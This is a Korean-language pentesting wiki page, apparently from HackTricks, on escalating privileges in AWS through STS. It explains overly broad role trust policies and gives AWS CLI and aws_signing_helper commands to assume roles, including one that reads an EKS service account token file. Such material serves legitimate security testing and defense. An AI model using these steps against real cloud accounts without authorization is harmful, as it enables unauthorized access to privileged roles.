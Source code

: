# AWS - STS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## STS

### `sts:AssumeRole`

모든 역할은 **역할 신뢰 정책**과 함께 생성됩니다. 이 정책은 **누가 생성된 역할을 assume할 수 있는지**를 나타냅니다. 같은 계정(**same account**)의 역할이 특정 계정이 자신을 assume할 수 있도록 허용하면, 그 계정은 해당 역할에 접근할 수 있게 되고(잠재적으로 **privesc**) 합니다.

예를 들어, 다음 역할 신뢰 정책은 누구나 해당 역할을 assume할 수 있음을 나타내며, 따라서 **어떤 사용자든 해당 역할에 연결된 권한으로 privesc할 수 있다**.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
다음 명령을 실행하는 역할을 가장할 수 있습니다:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Potential Impact:** 역할에 대한 Privesc.

> [!CAUTION]
> 이 경우 권한 `sts:AssumeRole` 는 **남용하려는 역할에 표시되어 있어야** 하며 공격자에게 속한 정책에 있어서는 안 된다는 점에 유의하라.\
> 예외가 하나 있는데, **다른 계정의 역할을 assume하려면** 공격자 계정도 해당 역할에 대해 **`sts:AssumeRole`** 권한을 **보유해야** 한다.


### `sts:AssumeRoleWithSAML`

이 역할을 가진 신뢰 정책은 **SAML로 인증된 사용자에게 해당 역할을 가장할 수 있는 액세스 권한을 부여한다.**

이 권한을 가진 신뢰 정책의 예는:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
일반적으로 역할을 사칭하기 위한 자격 증명을 생성하려면 다음과 같은 것을 사용할 수 있습니다:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
하지만 **공급자들은** 이를 더 쉽게 하기 위해 **자체 도구**를 제공할 수 있습니다. 예: [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
**Potential Impact:** 역할에 대한 Privesc.

### `sts:AssumeRoleWithWebIdentity`

이 권한은 웹 아이덴티티 공급자와 함께 모바일, 웹 애플리케이션, EKS... 등에서 인증된 **사용자들**이 임시 보안 자격증명 세트를 얻을 수 있도록 허용합니다. [자세히 보기.](https://docs.aws.amazon.com/STS/latest/APIReference/API_AssumeRoleWithWebIdentity.html)

예를 들어, **EKS service account**가 **IAM role을 impersonate**할 수 있어야 한다면, **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`**에 토큰이 존재하고 다음과 같이 **역할을 assume하고 자격증명을 얻을 수 있습니다**:
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
### Federation Abuse

{{#ref}}
../aws-basic-information/aws-federation-abuse.md
{{#endref}}

### IAM Roles Anywhere Privesc

AWS IAM RolesAnywhere는 AWS 외부의 워크로드가 X.509 certificates를 사용해 IAM roles를 assume할 수 있도록 합니다. 그러나 trust policies가 적절히 범위 지정되지 않으면 privilege escalation에 악용될 수 있습니다.

이 공격을 이해하려면 trust anchor가 무엇인지 설명해야 합니다. AWS IAM Roles Anywhere의 trust anchor는 신뢰의 루트 엔터티로, 계정에 등록된 Certificate Authority (CA)의 공개 인증서를 포함하여 AWS가 제시된 X.509 certificates를 검증할 수 있도록 합니다. 따라서 client certificate가 해당 CA에서 발급되었고 trust anchor가 활성화되어 있으면 AWS는 이를 유효한 것으로 인식합니다.

또한 profile은 X.509 certificate의 어떤 속성(CN, OU, or SAN 등)이 session tags로 변환될지를 정의하는 구성이며, 이 태그들은 이후 trust policy의 조건과 비교됩니다.

이 정책은 어떤 trust anchor나 certificate attributes가 허용되는지에 대한 제한이 없습니다. 결과적으로 계정 내의 어떤 trust anchor에 묶여 있는 어떤 certificate라도 이 role을 assume하는 데 사용할 수 있습니다.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Service": "rolesanywhere.amazonaws.com"
},
"Action": [
"sts:AssumeRole",
"sts:SetSourceIdentity",
"sts:TagSession"
]
}
]
}

```
privesc하려면 `aws_signing_helper`는 https://docs.aws.amazon.com/rolesanywhere/latest/userguide/credential-helper.html 에서 필요합니다.

그런 다음 유효한 인증서를 사용하면 attacker가 더 높은 권한의 역할로 피벗할 수 있습니다.
```bash
aws_signing_helper credential-process \
--certificate readonly.pem \
--private-key readonly.key \
--trust-anchor-arn arn:aws:rolesanywhere:us-east-1:123456789012:trust-anchor/ta-id \
--profile-arn arn:aws:rolesanywhere:us-east-1:123456789012:profile/default \
--role-arn arn:aws:iam::123456789012:role/Admin
```
trust anchor는 클라이언트의 `readonly.pem` 인증서가 권한 있는 CA에서 발급되었는지 검증하며, 이 `readonly.pem` 인증서 안에는 AWS가 서명이 대응하는 개인키 `readonly.key`로 만들어졌는지를 검증하는 데 사용하는 공개키가 포함되어 있다.

인증서는 CN 또는 OU와 같은 속성도 제공하는데, `default` 프로파일이 이를 태그로 변환하며 역할의 trust policy는 이 태그들로 접근 허가 여부를 결정할 수 있다. trust policy에 조건이 없다면, 그 태그들은 아무 쓸모가 없고 유효한 인증서를 가진 누구에게나 접근이 허용된다.

이 공격이 가능하려면 trust anchor와 `default` 프로파일 둘 다 활성 상태여야 한다.

### 참고자료

- [https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation](https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation)

{{#include ../../../banners/hacktricks-training.md}}
